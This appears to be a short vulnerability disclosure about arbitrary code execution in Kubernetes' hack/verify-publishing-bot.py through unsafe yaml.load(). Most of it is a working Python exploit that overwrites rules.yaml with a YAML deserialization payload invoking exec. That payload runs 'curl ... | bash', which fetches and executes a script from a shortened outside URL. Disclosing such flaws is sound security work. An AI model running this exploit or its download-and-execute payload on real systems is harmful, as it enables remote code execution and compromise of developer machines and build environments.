 # Description
**Arbitrary Code Excecution** in Kubernetes/hack/verify-publishing-bot.py. The hack directory contains many scripts that ensure continuous development of kubernetes, enhance the robustness of the code, improve development efficiency, etc. The explanations and descriptions of these scripts are helpful for contributors. For details, refer to the following guidelines.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. command is executed when the .py file loads the malicious rules.yaml file.  
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/kubernetes/kubernetes.git')
os.chdir('kubernetes/')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('curl -s -L http://bit.ly/10hA8iC | bash')"
'''
os.chdir('staging/publishing/')
os.system('rm rules.y*')
open('rules.yaml','w+').write(exploit)
os.chdir('../../')
os.system('python hack/verify-publishing-bot.py')
```
# POC
* Run the exploit code 
![aksdlak](https://cdn.discordapp.com/attachments/749019614352244777/787380186093453392/Screenshot_from_2020-12-12_22-30-23.png)
